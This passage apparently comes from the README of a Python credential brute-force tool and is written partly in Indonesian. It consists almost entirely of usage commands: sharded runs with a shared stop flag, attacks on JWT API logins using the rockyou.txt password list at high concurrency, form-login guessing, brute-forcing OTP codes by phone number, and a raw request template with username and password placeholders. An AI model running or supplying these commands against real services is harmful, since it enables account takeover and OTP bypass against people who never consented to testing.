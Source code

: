 ```bash
  -U users.txt -P passwords.txt \
  --shards 3 --shard-index 2 \
  --global-stop-flag /tmp/stop.flag
```

Begitu satu shard nemu password, semua shard auto-stop! 🎯

## 🎯 Real-World Examples

### Example 1: JWT API Login

```bash
python3 main.py \
  -t https://api.example.com/auth/login \
  -U emails.txt \
  -P rockyou.txt \
  --payload '{"email":"{EMAIL}","password":"{PASS}"}' \
  --check-substring '"token":' \
  -c 50 \
  --delay 0.1
```

### Example 2: Form-Based Login

```bash
python3 main.py \
  -t https://example.com/login \
  -U users.txt \
  -P passwords.txt \
  --method POST \
  --content-type application/x-www-form-urlencoded \
  --payload 'username={USER}&password={PASS}&submit=Login' \
  --check-substring 'Welcome back'
```

### Example 3: Phone Number OTP

```bash
python3 main.py \
  -t https://api.example.com/otp/request \
  -U phone_numbers.txt \
  -P otp_codes.txt \
  --payload '{"phone":"{PHONE}","code":"{PASS}"}' \
  --engine threads \
  -c 10 \
  --delay 1.0
```

### Example 4: Custom Headers (via Raw Request)

Save ke `request.txt`:

```http
POST /api/login HTTP/1.1
Host: api.target.com
Content-Type: application/json
X-API-Key: your-static-api-key
X-Client-Version: 2.1.0
User-Agent: MyApp/2.1

{"username":"{USER}","password":"{PASS}"}
```
